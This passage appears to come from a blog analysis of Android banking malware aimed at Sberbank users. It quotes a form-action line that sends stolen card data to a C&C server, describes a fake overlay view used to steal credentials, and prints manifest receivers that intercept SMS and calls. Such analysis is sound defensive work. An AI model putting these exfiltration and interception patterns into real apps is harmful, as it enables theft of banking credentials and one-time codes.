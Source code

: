 Stolen data are also sent to the C&C server.

> ```html
>document.myformsbol2.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankCC";
> ```

## Abusing overlay

It's an old well known technique, used here to steal user's credentials by displaying a fake view of another application.

The service `OverlayService` could be started from `MeSetting.startTPL`, and will build an `OverlayView` displaying the fake view in a `WebView`:

![overlay](/assets/res/malware/sberbank/overlay.png)

## That's not all! SMS and Calls

As we can see in the Manifest, the malware also listens for incoming SMS and calls:

> ```xml
> ...
><receiver android:name="krep.itmtd.ywtjexf.IncomingSms" android:priority="999">
>	<intent-filter android:priority="999">
>		<action android:name="android.provider.Telephony.SMS_RECEIVED"/>
>	</intent-filter>
></receiver>
><receiver android:name="krep.itmtd.ywtjexf.IncomingCall">
>	<intent-filter>
>		<action android:name="android.intent.action.PHONE_STATE"/>
>	</intent-filter>
></receiver>
>...
> ```
